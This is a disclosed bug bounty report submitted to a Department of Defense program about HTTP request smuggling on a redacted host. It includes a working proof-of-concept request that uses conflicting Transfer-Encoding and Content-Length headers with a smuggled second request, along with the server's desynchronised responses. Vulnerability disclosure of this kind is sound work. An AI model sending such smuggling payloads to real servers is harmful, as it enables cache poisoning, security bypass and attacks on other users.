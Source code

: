 # HTTP Request Smuggling 

## Report Details
- **Report ID**: 1120982
- **URL**: https://hackerone.com/reports/1120982
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-03-09T03:24:12.249Z
- **Disclosed**: 2021-04-20T19:36:48.644Z

## Reporter
- **Username**: lu3ky-13
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
hello dear support 
I have found HTTP Request Smuggling on www.████████

Issue description
==============

HTTP request smuggling vulnerabilities arise when websites route HTTP requests through webservers with inconsistent HTTP parsing.
By supplying a request that gets interpreted as being different lengths by different servers, an attacker can poison the back-end TCP/TLS socket and prepend arbitrary data to the next request. Depending on the website's functionality, this can be used to bypass front-end security rules, access internal systems, poison web caches, and launch assorted attacks on users who are actively browsing the site.

## Impact

Impact
an attacker can poison the TCP / TLS socket and add arbitrary data to the next request. Depending on the functionality of the website, this can be used to bypass front-end security rules, internal system access, poison the web cache, and launch various attacks on users who actively activate the site.

Reference: https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn

## System Host(s)
www.█████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
http request
============
```
GET /404 HTTP/1.1
Host: www.███████
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
███████
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 118
Connection: keep-alive

0

GET https://www.███████/███ HTTP/1.1
Host: www.█████████
foo: x
```

http response 
===============
```
HTTP/1.1 302 Found
Date: Tue, 09 Mar 2021 02:54:22 GMT
Server: Apache
Set-Cookie: ███=expiry=1615259062417257;Max-Age=600;path=/;httponly;secure;
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000; includeSubDomains
Referrer-Policy: strict-origin
Location: https://www.████/404_not_found.html
Content-Length: 236
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>302 Found</title>
</head><body>
<h1>Found</h1>
<p>The document has moved <a href="https://www.████████/404_not_found.html">here</a>.</p>
</body></html>
HTTP/1.1 200 OK
Date: Tue, 09 Mar 2021 02:54:22 GMT
Server: Apache
Set-Cookie: ████████=expiry=1615259062417962;Max-Age=600;path=/;httponly;secure;
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000; includeSubDomains
Referrer-Policy: strict-origin
Cache-Control: no-cache, private
Last-Modified: Mon, 05 Mar 2012 16:45:37 GMT
ETag: "78d0-4ba81a7e20e40"
Accept-Ranges: bytes
Content-Length: 30928
Content-Type: image/png

PNG


```

██████
██████████

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
